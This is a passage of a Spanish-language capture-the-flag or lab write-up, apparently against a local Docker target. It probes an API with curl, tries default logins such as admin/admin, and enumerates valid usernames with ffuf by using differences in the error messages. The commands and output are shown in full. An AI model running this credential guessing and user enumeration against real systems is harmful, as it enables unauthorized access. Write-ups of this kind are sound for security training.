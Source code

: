 Si intentamos acceder a la siguiente ruta, nos reporta que el metodo no esta permitido
```bash
http://172.17.0.2:12345/user
```

Asi que desde curl realizamos la peticion mediante el metodo **PATCH**
```bash
curl -s -X PATCH http://172.17.0.2:12345/user
```

Desde la terminarl vemos lo siguiente:
```bash
{
  "message": "User not found"
}
```

Como tenemos un login probraremos credenciales por defaul
```bash
curl -s -X POST http://172.17.0.2:12345/login -H 'Content-Type: application/json' -d '{"username": "root", "password":"root"}'
```

Cuando probamos con **admin** nos reporta lo siguiente:
```bash
curl -s -X POST http://172.17.0.2:12345/login -H 'Content-Type: application/json' -d '{"username": "admin", "password":"admin"}'

# Respuesta del servidor
{
  "message": "Invalid credentials"
}
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que sabemos que **admin** es un potencial usuario, El login devuelve `"Invalid credentials"` en lugar de `"User not found"` o algún otro mensaje más específico, entonces puede ser vulnerable a **enumeración de usuarios por diferencias en mensajes**.
Ahora tenemos una via potencial de enumerar usuarios validos para el sisitema con **ffuf** de la siguiente maneran basandonos el el mensaje de retorno
### Ejecucion del Ataque
Ejecutamos la enumeracion de usuarios:
```bash
# Comandos para explotación
ffuf -X POST -H "Content-Type: application/json" -d '{"username":"FUZZ", "password":"badpass"}' -u http://172.17.0.2:12345/login -w /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -fc 401
```

Tenemo slguiente:
```bash
michael                 [Status: 200, Size: 53, Words: 8, Lines: 5, Duration: 2ms]
george                  [Status: 200, Size: 52, Words: 8, Lines: 5, Duration: 12ms]
charlie                 [Status: 200, Size: 52, Words: 8, Lines: 5, Duration: 22ms]
steven                  [Status: 200, Size: 53, Words: 8, Lines: 5, Duration: 31ms]
edward                  [Status: 200, Size: 52, Words: 8, Lines: 5, Duration: 31ms]
kevin                   [Status: 200, Size: 53, Words: 8, Lines: 5, Duration: 33ms]
bob                     [Status: 200, Size: 52, Words: 8, Lines: 5, Duration: 31ms]
rachel                  [Status: 200, Size: 53, Words: 8, Lines: 5, Duration: 30ms]
oscar                   [Status: 200, Size: 53, Words: 8, Lines: 5, Duration: 31ms]
tina                    [Status: 200, Size: 53, Words: 8, Lines: 5, Duration: 29ms]
hannah                  [Status: 200, Size: 52, Words: 8, Lines: 5, Duration: 30ms]
julia                   [Status: 200, Size: 53, Words: 8, Lines: 5, Duration: 31ms]
laura                   [Status: 200, Size: 53, Words: 8, Lines: 5, Duration: 33ms]
```